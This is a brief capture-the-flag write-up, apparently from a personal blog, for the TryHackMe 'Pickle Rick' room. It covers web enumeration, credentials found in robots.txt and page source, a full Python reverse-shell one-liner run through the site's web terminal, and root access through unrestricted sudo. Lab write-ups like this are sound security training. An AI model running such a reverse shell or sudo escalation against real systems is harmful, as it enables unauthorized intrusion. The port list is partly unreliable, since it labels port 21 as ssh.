 ```yaml
---
title: Pickle Rick
permalink: pickleRick
---
```

# ![front](saharshtapi.github.io/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command 
    >python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](saharshtapi.github.io/images/Pickle Rick/1st.png)
### 2nd Flag:
![user_flag](saharshtapi.github.io/images/Pickle Rick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
      > 'sudo bash'
    
### 3rd Flag:
![rootflag.png](saharshtapi.github.io/images/lazyAdmin/3rd.png)
